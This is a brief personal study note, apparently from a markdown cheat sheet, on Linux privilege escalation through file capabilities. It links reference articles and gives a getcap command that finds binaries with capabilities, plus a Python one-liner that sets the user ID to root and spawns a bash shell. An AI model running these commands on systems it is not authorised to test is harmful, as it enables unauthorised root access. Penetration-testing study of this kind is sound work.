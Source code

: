 Completely a different concept have to explore more about it.
[LinuxPrivEsc](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
[SUIDvsCapabilities](https://mn3m.info/posts/suid-vs-capabilities/)
[medium](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

`getcap -r / 2> /dev/null` #UtilizeThis 

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
